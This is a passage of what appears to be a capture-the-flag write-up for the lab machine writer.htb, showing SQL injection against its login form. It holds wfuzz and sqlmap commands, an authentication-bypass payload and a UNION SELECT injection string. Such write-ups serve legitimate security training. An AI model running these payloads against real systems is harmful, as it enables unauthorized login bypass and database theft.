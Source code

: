 

## sqli 

wfuzz sqli payload

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt  -u http://writer.htb/administrative -d "uname=FUZZ&password=password"  -p 127.0.0.1:8080:HTTP

sqlmap -r login.req --level=3 --risk=3  --time-sec 1 --current-user --batch
```

Bypass login.

```bash
admin'+or'
```

![image-20230108122427516](./images/image-20230108122427516.png)

union to check the info back.

```bash
uname='+union+select+1,2,3,4,5,6%3b--+-&password=password
```
